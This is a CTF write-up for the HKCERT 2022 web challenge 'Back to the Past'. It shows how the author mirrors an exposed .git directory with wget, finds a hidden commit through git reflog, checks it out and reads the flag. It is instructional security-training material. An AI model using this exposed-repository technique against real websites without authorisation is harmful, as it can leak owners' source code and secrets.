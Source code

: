 # Back to the Past

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

- Challenge difficulty: ★☆☆☆☆

## Background

Web: [http://chal.hkcert22.pwnable.hk:28222](http://chal.hkcert22.pwnable.hk:28222)

Solution: [https://hackmd.io/@blackb6a/hkcert-ctf-2022-ii-en-6a196795](https://hackmd.io/@blackb6a/hkcert-ctf-2022-ii-en-6a196795)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111215817.png)

## Find the flag

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111215846.png)

**View-source:**
```html
<html>
<head>
    <title>Welcome</title>
</head>

<body style="background: black; color: white;">
    <h1 style="text-align:center;">Welcome to my home page!</h1>

    <p style="text-align:center;"><a href="https://www.youtube.com/watch?v=o1UcRXTXmN4><img src="img/door.png" height="200" class="center"
[...]
```

**Let's explore this web page!**

When I click the door, it brings me to a YouTube video, which is not helpful.

**However, when I go to `/img` directory, I see a picture:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111220053.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111220057.png)

403 Forbidden...

Since the challenge's name is `Back to the Past`, this got me thinking: **Is this website being push via `git`?**

**If so, it might have a directory call `.git`**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111220207.png)

**Boom! Let's `wget` all the files!**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Back-to-the-Past]
└─# mkdir .git;cd .git            
                                                                                                           
┌──(root🌸siunam)-[~/…/HKCERT-CTF-2022/Web/Back-to-the-Past/.git]
└─# wget -r http://chal.hkcert22.pwnable.hk:28222/.git/

┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# ls -lah            
total 20K
drwxr-xr-x 4 root root 4.0K Nov 11 22:03 .
drwxr-xr-x 3 root root 4.0K Nov 11 22:03 ..
drwxr-xr-x 8 root root 4.0K Nov 11 22:03 .git
drwxr-xr-x 2 root root 4.0K Nov 11 22:03 img
-rw-r--r-- 1 root root 1.8K Oct 25 10:34 index.html
```

**Since it's a `.git` directory, we can view its logs and commits!**
```
┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# git log
commit 77fe6ae33755cbac75cf2bf00014a9e4b2f08903 (HEAD -> master)
Author: Holland Wan <noreply@noreply.com>
Date:   Fri Oct 21 22:48:35 2022 +0800

    Final webpage

commit a9c248a136bb24592cfe1dd14805dde9da321c4d
Author: Holland Wan <noreply@noreply.com>
Date:   Fri Oct 21 22:38:59 2022 +0800

    Initial

┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# git reflog 
77fe6ae (HEAD -> master) HEAD@{0}: commit: Final webpage
a9c248a HEAD@{1}: reset: moving to a9c248a136bb24592cfe1dd14805dde9da321c4d
4ba5380 HEAD@{2}: commit: What is this?
a9c248a HEAD@{3}: commit (initial): Initial
```

**The `What is this?` commit looks sussy!**

**Let's `checkout` that commit!**
```
┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# git checkout 4ba5380 -f
```

```
┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# ls -lah
total 16K
drwxr-xr-x 3 root root 4.0K Nov 11 22:07 .
drwxr-xr-x 3 root root 4.0K Nov 11 22:03 ..
-rw-r--r-- 1 root root   52 Nov 11 22:07 flag.txt
drwxr-xr-x 8 root root 4.0K Nov 11 22:07 .git
                                                                                                           
┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# cat flag.txt                     
hkcert22{n0stalgic_w3bs1t3_br1ings_m3_b4ck_to_2000}
```

We got the flag!

# Conclusion

What we've learned:

1. Insecurely Storing Files